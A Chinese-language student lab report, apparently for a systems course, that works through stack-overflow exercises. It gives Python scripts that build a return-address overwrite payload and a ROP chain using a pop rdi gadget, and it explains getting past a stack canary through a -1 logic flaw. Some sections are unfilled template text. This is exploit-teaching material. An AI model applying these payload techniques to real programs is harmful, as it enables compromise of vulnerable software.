



# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
    - **漏洞定位**：`func` 函数内部调用了 `strcpy` 函数，且未对输入字符串长度进行检查。
    - **栈结构分析**：汇编指令 `lea -0x8(%rbp), %rax` 表明缓冲区（Buffer）起始地址距离 `%rbp` 只有 8 个字节。在 64 位系统中，返回地址（retaddr）位于 `%rbp + 0x8` 处。因此，从缓冲区起始位置到返回地址的距离为：`8字节 (Buffer) + 8字节 (Saved RBP) = 16字节`。
    - **攻击目标**：`func1` 函数的起始地址为 `0x401216`，该函数负责输出字符串 `"Yes!I like ICS!"` 并退出程序。
- **解决方案**：
```python
import struct

# 1. 填充 16 字节以到达返回地址的位置
padding = b"A" * 16

# 2. 目标函数 func1 的地址: 0x401216
# 使用 <Q 表示 64 位小端序存储
target_addr = struct.pack("<Q", 0x401216)

payload = padding + target_addr

# 3. 写入文件
with open("ans1.txt", "wb") as f:
    f.write(payload)

print("Payload 已经生成到 ans1.txt")
```
- **结果**：附上图片

### Problem 2:
- **分析**：- **保护机制**：该题目开启了 **NX (No-Execute)** 保护，须使用 **ROP (Return Oriented Programming)** 技术。
    - **漏洞定位**：分析 `func` 函数（地址 `0x401290`），其内部调用了 `memcpy`。根据指令 `lea -0x8(%rbp), %rax`，缓冲区大小仅为 8 字节。覆盖到返回地址需要的偏移量为：`8字节 (Buffer) + 8字节 (Saved RBP) = 16字节`。
    - **攻击目标**：执行 `func2` (地址 `0x401216`)。通过反汇编发现，`func2` 会检查第一个参数（寄存器 `%rdi`）的值是否等于 `0x3f8`。只有校验通过，程序才会输出 `"Yes!I like ICS!"`。
    - **ROP 链构造**：为了将 `0x3f8` 传入 `%rdi`，我们需要一个 `pop rdi; ret` 的 Gadget。在反汇编结果中，`pop_rdi` 函数（地址 `0x4012bb`）的末尾正好包含这个序列：`0x4012c7` 处为 `5f (pop rdi)`，紧接着 `c3 (ret)`。
- **解决方案**：
```python
import struct

# 1. 偏移量 (8字节buffer + 8字节saved rbp)
padding = b"A" * 16

# 2. pop rdi; ret 的地址
# 从反汇编看：4012c7: 5f (pop rdi) ; c3 (ret)
pop_rdi_ret = struct.pack("<Q", 0x4012c7)

# 3. 传给 func2 的参数值 (0x3f8 = 1016)
arg1 = struct.pack("<Q", 0x3f8)

# 4. func2 的起始地址
func2_addr = struct.pack("<Q", 0x401216)

# 组合 Payload
payload = padding + pop_rdi_ret + arg1 + func2_addr

with open("ans2.txt", "wb") as f:
    f.write(payload)

print("ans2.txt 生成成功！")
```
- **结果**：附上图片

### Problem 3: 
- **分析**：...
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

### Problem 4: 
- **分析**：体现canary的保护机制是什么
    * **Canary 保护机制**：通过反汇编 `problem4` 可以看到，程序开启了栈溢出保护（Stack Canary）。在 `main` 和 `func` 函数的开头（例如地址 `142f` 处），程序从 `%fs:0x28` 读取一个随机值并存入栈中 。在函数返回（执行 `ret`）之前，程序会执行 `sub %fs:0x28, %rax` 指令来校验栈上的值是否被篡改 `[cite: 2][cite_start]`。如果发生栈溢出覆盖了返回地址，Canary 值被改变，程序将调用 `<__stack_chk_fail@plt>` 并立即终止，从而防止了传统的覆盖返回地址攻击 。
    * **逻辑漏洞分析**：虽然有 Canary 保护，但通过阅读汇编代码发现 `func` 函数内部存在逻辑漏洞。在地址 `13df` 处，程序使用 `cmpl $0xffffffff, -0xc(%rbp)` 检查变量是否等于 `-1` 。如果相等，则通过 `je 13f6` 直接跳转到调用 `func1`（通关函数）的指令处 。所以不需要通过溢出破坏栈结构，只需要输入特定的数值满足逻辑判断即可。
- **解决方案**：* **Payload 信息**：本题无需构造复杂的二进制 Payload 文件，直接通过标准输入即可。
    * **操作过程**：在程序提示输入 "yuanshi" 数量时，输入 `-1`。
    * **为何选择 -1**：·程序在 `13df` 行硬编码了对 `$0xffffffff` 的检查，从而触发 `je 13f6` 跳转，绕过所有复杂的金额削减循环，直接调用通关函数 `func1`。
    * **原理说明**：当输入为 `-1` 时，内存中的补码表示为 `0xffffffff`。在 `func` 函数的逻辑中，这会使得 `cmpl` 指令的结果为真，从而触发 `je` 跳转到目标函数 `func1` 。程序随后输出 `your money is 4294967295` 是其补码。
- **结果**：附上图片

## 思考与总结


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
